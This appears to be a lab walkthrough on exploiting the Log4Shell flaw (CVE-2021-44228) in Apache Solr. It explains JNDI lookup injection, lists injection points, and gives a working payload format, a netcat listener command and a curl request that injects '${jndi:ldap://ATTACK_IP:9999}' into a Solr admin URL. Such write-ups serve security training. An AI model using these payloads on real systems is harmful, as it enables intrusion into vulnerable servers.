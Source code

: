 Log4j adds extra logic to logs by **parsing** entries to enrich data. May also take actions to evaluate code based off entry data. This is gist of CVE-2021-44228. Some syntax may be **executed** when entered into log files:

* ${sys:os.name}
* ${sys:user.name}
* ${log4j:configParentLocation}
* ${ENV:PATH}
* ${ENV:HOSTNAME}
* ${java:version}

Format of usual syntax to abuse log4j is **${jndi:ldap://ATTACKERCONTROLLEDHOST}**.

Syntax indicates that log4j will invoke functionality from **Java Naming and Directory Interface (JNDI)**. This can be used to access external resources (references) that are weaponised in attack.

**ldap://** schema indicates that target will reach out to attacker controlled endpoint via LDAP protocol.&#x20;

Syntax can be entered **anywhere data is logged by target application**. Attack surface different for different applications. Seeing presence of log4j files does not provide information on exact version number or where or how target application might use package.

In this example, **params** can be supplied to **/solr/admin/cores** URL. This is where inject syntax is supplied. Use HTTP GET parameters that are parsed by log4j. Single line of text makes vulnerability extremely easy to exploit.

JNDI syntax could be supplied on other locations:

* Input boxes, user and password login forms, data entry points within applications.
* HTTP headers such as User-Agent, X-Forwarded-For, or other customisable headers.
* **Any place for user-supplied data**.

{% embed url="https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf" %}
JNDI attack vector information
{% endembed %}

Prepare netcat listener on attack system:

```
nc -lvnp 9999
```

Make GET request including primitive JNDI payload as HTTP parameters:

```
curl 'http://TARGET_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACK_IP:9999\}'
```

Must wrap URL within single quotes so Bash does not interpret dollar-sign as variable. Must also escape curly braces with single backslash to prevent misrepresentation in arguments.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p>JNDI payload sent</p></figcaption></figure>
